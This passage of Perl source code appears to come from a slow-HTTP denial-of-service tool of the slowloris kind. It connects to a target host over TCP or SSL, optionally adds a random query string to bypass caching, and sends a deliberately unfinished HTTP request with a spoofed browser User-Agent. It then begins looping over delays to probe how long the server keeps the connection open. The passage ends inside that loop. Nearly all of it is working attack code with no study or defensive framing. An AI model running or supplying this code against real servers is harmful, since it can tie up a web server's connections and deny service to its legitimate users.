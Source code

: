 ```
    $totaltime = $totaltime / 60;
    print "This test could take up to $totaltime minutes.\n";

    my $delay   = 0;
    my $working = 0;
    my $sock;

    if ($ssl) {
        if (
            $sock = new IO::Socket::SSL(
                PeerAddr => "$host",
                PeerPort => "$port",
                Timeout  => "$tcpto",
                Proto    => "tcp",
            )
          )
        {
            $working = 1;
        }
    }
    else {
        if (
            $sock = new IO::Socket::INET(
                PeerAddr => "$host",
                PeerPort => "$port",
                Timeout  => "$tcpto",
                Proto    => "tcp",
            )
          )
        {
            $working = 1;
        }
    }
    if ($working) {
        if ($cache) {
            $rand = "?" . int( rand(99999999999999) );
        }
        else {
            $rand = "";
        }
        my $primarypayload =
            "GET /$rand HTTP/1.1\r\n"
          . "Host: $sendhost\r\n"
          . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"
          . "Content-Length: 42\r\n";
        if ( print $sock $primarypayload ) {
            print "Connection successful, now comes the waiting game...\n";
        }
        else {
            print
"That's odd - I connected but couldn't send the data to $host:$port.\n";
            print "Is something wrong?\nDying.\n";
            exit;
        }
    }
    else {
        print "Uhm... I can't connect to $host:$port.\n";
        print "Is something wrong?\nDying.\n";
        exit;
    }
    for ( my $i = 0 ; $i <= $#times ; $i++ ) {
        print "Trying a $times[$i] second delay: \n";
```